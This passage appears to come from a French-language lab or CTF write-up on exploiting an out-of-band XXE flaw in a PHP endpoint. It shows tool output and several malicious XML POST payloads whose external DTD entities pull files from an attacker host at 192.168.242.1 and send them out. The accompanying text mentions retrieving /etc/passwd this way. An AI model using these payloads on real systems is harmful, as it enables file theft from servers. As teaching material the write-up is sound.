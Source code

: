 ```console
    <xml><test>hello</test></xml>
---
---
Out-Of-Band XXE vulnerability by sending raw XML in request body
The target sent 2031 bytes of data to the endpoint at 2023-05-03T12:44:13 with IP 192.168.242.129.
Received data can be seen at http://127.0.0.1/xxe_data/g875ge/1/72617720626f6479/1683125053-1-192.168.242.129.txt.
Evil request:
    POST /ultra-access-view/main.php HTTP/1.1
    Content-Type: text/xml

    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ENTITY % remote SYSTEM "http://192.168.242.1/dtd/g875ge/1/72617720626f6479/linux.dtd">
    %remote; %intern; %trick; ]>
    <xml><test>hello</test></xml>
---
---
The target reached the DTD file on the endpoint but the exploitation didn't succeed.
Evil request:
    POST /ultra-access-view/main.php HTTP/1.1
    Content-Type: text/xml

    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ENTITY % remote SYSTEM "http://192.168.242.1/dtd/g875ge/1/72617720626f6479/windows.dtd">
    %remote; %intern; %trick; ]>
    <xml><test>hello</test></xml>
---
---
The target reached the DTD file on the endpoint but the exploitation didn't succeed.
Evil request:
    POST /ultra-access-view/main.php HTTP/1.1
    Content-Type: text/xml

    <?xml version="1.0"?><!DOCTYPE foo SYSTEM "http://192.168.242.1/dtd/g875ge/1/72617720626f6479/javalin.dtd"><foo>&trick;</foo>
---
---
The target reached the DTD file on the endpoint but the exploitation didn't succeed.
Evil request:
    POST /ultra-access-view/main.php HTTP/1.1
    Content-Type: text/xml

    <?xml version="1.0"?><!DOCTYPE foo SYSTEM "http://192.168.242.1/dtd/g875ge/1/72617720626f6479/javawin.dtd"><foo>&trick;</foo>
---
```

Le endpoint stocke les résultats de l'exfiltration. On peut obtenir les fichiers texte en suivant les URLs. On retrouve notamment le fichier `/etc/passwd` que voici :
